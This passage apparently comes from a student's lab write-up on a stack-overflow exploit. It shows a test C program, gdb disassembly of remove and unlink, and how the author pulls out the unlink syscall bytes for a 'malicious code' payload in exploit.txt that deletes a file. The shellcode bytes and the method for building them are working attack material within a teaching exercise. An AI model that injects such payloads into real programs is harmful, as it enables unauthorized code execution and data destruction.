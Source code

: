 	  60 cf ff ff ff 7f 00 00


5. My next step was to find the byte sequence for the remove 
function so that I could convert it into raw code and put that 
in my exploit.txt at the right place. I found a simple function 
that used the remove function on the Internet:

- #include <stdio.h>
- #include <string.h>

int main()
{
        
        int ret;
        FILE *fp;
        char filename[] = "file.txt";

        fp = fopen(filename, "w");
        fclose(fp);

        ret = remove(filename);  <- remove is here

        return(0);
}

and ran it in gdb while setting a break at remove and stepping into each function. My output is shown below:

0x00007ffff7a83750 <remove+0>:	53	push   %rbx
0x00007ffff7a83751 <remove+1>:	48 89 fb	mov    %rdi,%rbx
0x00007ffff7a83754 <remove+4>:	e8 57 f9 07 00	callq  0x7ffff7b030b0 <unlink>
0x00007ffff7b030b0 <unlink+0>:	b8 57 00 00 00	mov    $0x57,%eax
0x00007ffff7b030b5 <unlink+5>:	0f 05	syscall 
0x00007ffff7b030b7 <unlink+7>:	48 3d 01 f0 ff ff	cmp    $0xfffffffffffff001,%rax
0x00007ffff7b030bd <unlink+13>:	73 01	jae    0x7ffff7b030c0 <unlink+16>
0x00007ffff7b030bf <unlink+15>:	c3	retq   
0x00007ffff7a83759 <remove+9>:	85 c0	test   %eax,%eax
0x00007ffff7a8375b <remove+11>:	74 24	je     0x7ffff7a83781 <remove+49>
0x00007ffff7a83781 <remove+49>:	5b	pop    %rbx
0x00007ffff7a83782 <remove+50>:	c3	retq    

The unlink byte code is the code I want to use as the 
unlink function actually deletes the file. From piazza, I 
knew that the syscall on line 5 was what I needed to get 
the byte code for. After searching syscall on the Internet 
I learned that I also needed to move the value 87 (0x57 in hex) 
to the rax register so that syscall is defined and can execute properly:

	#define __NR_unlink   87

This can be seen in the gdb code above on line 4 before the syscall. 

	0x00007ffff7b030b0 <unlink+0>:	b8 57 00 00 00	mov    $0x57,%eax

These two lines of byte code make up another part of my malicious code in exploit.txt:

	b8 57 00 00 00 0f 05	 
